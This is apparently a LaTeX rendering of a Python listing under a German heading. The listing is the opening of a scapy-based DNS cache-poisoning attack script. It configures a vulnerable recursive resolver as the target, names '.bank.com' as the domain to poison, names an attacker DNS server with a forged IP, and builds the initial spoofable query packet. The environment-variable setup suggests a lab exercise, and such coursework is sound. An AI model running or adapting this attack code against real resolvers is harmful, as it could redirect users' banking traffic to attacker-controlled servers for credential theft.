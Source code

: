 \documentclass[10pt,a4paper]{article}
\begin{document}
\subsection{Das Python Programm}
\begin{center}
\begin{lstlisting}
import os
import random
from socket import AF_INET, SOCK_DGRAM, socket

from scapy.all import IP, UDP, DNS, DNSQR, DNSRR, sr1, sendpfast, Ether

sock = socket(AF_INET, SOCK_DGRAM)
sock.bind((os.environ['ATK_SERVER_IP'], 1234))

# Vulnerable recursive DNS server settings
target_dns_ip = os.environ['VLN_SERVER_IP']
target_dns_port_in = int(os.environ['VLN_DNS_PORT_IN'])
target_dns_port_out = int(os.environ['VLN_DNS_PORT_OUT'])
\end{lstlisting}
\end{center}
\begin{center}
\begin{lstlisting}
# Target domain base to be messed with
target_domain_base = ".bank.com"
# Authoritative NS for the target domain
known_ns_domain = "ns01.cashparking.com."
known_ns_ip = "216.69.185.38"

# Malicious DNS server
attacker_dns_ip = os.environ['ATK_SERVER_IP']
expected_ip = os.environ['ATK_FORGED_IP']
\end{lstlisting}
\end{center}
\begin{center}
\begin{lstlisting}
def initial_request(domain, ip, port):
    return Ether() / IP(dst=ip) / UDP(dport=port) / DNS(
        id=42,
        qr=0,
        rd=1,
        ra=0,
        qdcount=1,
        ancount=0,
        nscount=0,
        arcount=0,
        qd=DNSQR(qname=domain, qtype='A', qclass='IN')
    )
\end{lstlisting}
\end{center}
\end{document}
